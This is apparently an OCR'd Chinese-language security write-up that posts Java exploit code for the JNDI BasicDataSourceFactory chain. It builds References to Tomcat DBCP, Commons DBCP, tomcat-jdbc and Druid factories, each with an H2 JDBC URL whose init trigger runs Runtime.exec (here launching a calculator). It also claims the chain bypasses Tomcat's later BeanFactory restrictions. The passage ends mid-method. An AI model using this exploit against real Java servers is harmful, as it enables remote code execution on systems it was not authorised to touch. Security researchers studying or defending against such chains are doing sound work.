 ### BasicDataSourceFactory 利用链（通用）
BasicDataSourceFactory 工厂类可以发起 jdbc 连接，结合 jdbc 的利用方式可以完成 RCE。这里直接贴 exp 了。**此前提到的 Tomcat 高本版对 BeanFactory 作了限制，但 jdbc 利用链并未受到影响。**
#### dbcp
```java
private static Reference tomcat_dbcp2_RCE(){
    return dbcpByFactory("org.apache.tomcat.dbcp.dbcp2.BasicDataSourceFactory");
}
private static Reference tomcat_dbcp1_RCE(){
    return dbcpByFactory("org.apache.tomcat.dbcp.dbcp.BasicDataSourceFactory");
}
private static Reference commons_dbcp2_RCE(){
    return dbcpByFactory("org.apache.commons.dbcp2.BasicDataSourceFactory");
}
private static Reference commons_dbcp1_RCE(){
    return dbcpByFactory("org.apache.commons.dbcp.BasicDataSourceFactory");
}
private static Reference dbcpByFactory(String factory){
    Reference ref = new Reference("javax.sql.DataSource",factory,null);
    String JDBC_URL = "jdbc:h2:mem:test;MODE=MSSQLServer;init=CREATE TRIGGER shell3 BEFORE SELECT ON\n" +
            "INFORMATION_SCHEMA.TABLES AS $$//javascript\n" +
            "java.lang.Runtime.getRuntime().exec('mate-calc')\n" +
            "$$\n";
    ref.add(new StringRefAddr("driverClassName","org.h2.Driver"));
    ref.add(new StringRefAddr("url",JDBC_URL));
    ref.add(new StringRefAddr("username","root"));
    ref.add(new StringRefAddr("password","password"));
    ref.add(new StringRefAddr("initialSize","1"));
    return ref;
}
```
#### tomcat-jdbc
```java
private static Reference tomcat_JDBC_RCE(){
    return dbcpByFactory("org.apache.tomcat.jdbc.pool.DataSourceFactory");
}
private static Reference dbcpByFactory(String factory){
    Reference ref = new Reference("javax.sql.DataSource",factory,null);
    String JDBC_URL = "jdbc:h2:mem:test;MODE=MSSQLServer;init=CREATE TRIGGER shell3 BEFORE SELECT ON\n" +
            "INFORMATION_SCHEMA.TABLES AS $$//javascript\n" +
            "java.lang.Runtime.getRuntime().exec('mate-calc')\n" +
            "$$\n";
    ref.add(new StringRefAddr("driverClassName","org.h2.Driver"));
    ref.add(new StringRefAddr("url",JDBC_URL));
    ref.add(new StringRefAddr("username","root"));
    ref.add(new StringRefAddr("password","password"));
    ref.add(new StringRefAddr("initialSize","1"));
    return ref;
}
```
#### druid
```java
private static Reference druid(){
    Reference ref = new Reference("javax.sql.DataSource","com.alibaba.druid.pool.DruidDataSourceFactory",null);
    String JDBC_URL = "jdbc:h2:mem:test;MODE=MSSQLServer;init=CREATE TRIGGER shell3 BEFORE SELECT ON\n" +
            "INFORMATION_SCHEMA.TABLES AS $$//javascript\n" +
            "java.lang.Runtime.getRuntime().exec('mate-calc')\n" +
            "$$\n";
    String JDBC_USER = "root";
```
